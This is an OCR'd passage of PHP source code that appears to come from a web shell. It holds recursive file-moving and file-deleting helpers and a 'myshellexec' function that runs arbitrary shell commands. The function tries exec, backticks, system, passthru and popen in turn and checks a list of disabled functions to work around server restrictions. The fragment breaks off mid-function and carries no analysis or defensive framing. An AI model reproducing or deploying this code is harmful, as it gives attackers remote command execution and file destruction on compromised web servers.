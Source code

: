 $t = str_replace("\\",DIRECTORY_SEPARATOR,$t); 
if (is_dir($d)) 
{ 
  if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;} 
  if (substr($t,-1) != DIRECTORY_SEPARATOR) {$t .= DIRECTORY_SEPARATOR;} 
  return fs_move_dir($d,$t); 
} 
elseif (is_file($d)) 
{ 
  if(copy($d,$t)) {return unlink($d);} 
  else {unlink($t); return FALSE;} 
} 
else {return FALSE;} 
} 
} 
if (!function_exists("fs_rmdir")) 
{ 
function fs_rmdir($d) 
{ 
$h = opendir($d); 
while (($o = readdir($h)) !== FALSE) 
{ 
  if (($o != ".") and ($o != "..")) 
  { 
   if (!is_dir($d.$o)) {unlink($d.$o);} 
   else {fs_rmdir($d.$o.DIRECTORY_SEPARATOR); rmdir($d.$o);} 
  } 
} 
closedir($h); 
rmdir($d); 
return !is_dir($d); 
} 
} 
if (!function_exists("fs_rmobj")) 
{ 
function fs_rmobj($o) 
{ 
$o = str_replace("\\",DIRECTORY_SEPARATOR,$o); 
if (is_dir($o)) 
{ 
  if (substr($o,-1) != DIRECTORY_SEPARATOR) {$o .= DIRECTORY_SEPARATOR;} 
  return fs_rmdir($o); 
} 
elseif (is_file($o)) {return unlink($o);} 
else {return FALSE;} 
} 
} 
if (!function_exists("myshellexec")) 
{ 
function myshellexec($cmd) 
{ 
global $disablefunc; 
$result = ""; 
if (!empty($cmd)) 
{ 
  if (is_callable("exec") and !in_array("exec",$disablefunc)) {exec($cmd,$result); $result = join("\n",$result);} 
  elseif (($result = `$cmd`) !== FALSE) {} 
  elseif (is_callable("system") and !in_array("system",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;} 
  elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;} 
  elseif (is_resource($fp = popen($cmd,"r"))) 
  { 